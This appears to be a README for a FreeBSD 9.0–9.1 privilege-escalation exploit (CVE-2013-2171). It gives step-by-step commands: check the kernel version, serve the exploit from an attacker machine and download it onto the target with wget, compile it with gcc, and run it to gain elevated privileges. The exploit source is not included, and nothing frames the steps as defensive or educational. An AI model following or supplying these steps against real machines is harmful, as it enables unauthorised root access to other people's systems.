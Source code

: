 # FreeBSD-9.0-9.1 - Privilege-Escalation
CVE-2013-2171

By fbsd9lul@hunger.hu

How to Exploit!

**1° Check the kernel version**

´´´uname -a

FreeBSD freebsd 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012
´´´

**2° Transfer this file to target**

´´´Attacker machine -> python3 -m http.server 8080

Target machine -> wget IP:8080/26368.c´´´

**3° Use GCC to compile the code**

´´´gcc 26368.c -o exploit´´´

**4° Run the exploit**

´´´./exploit´´´
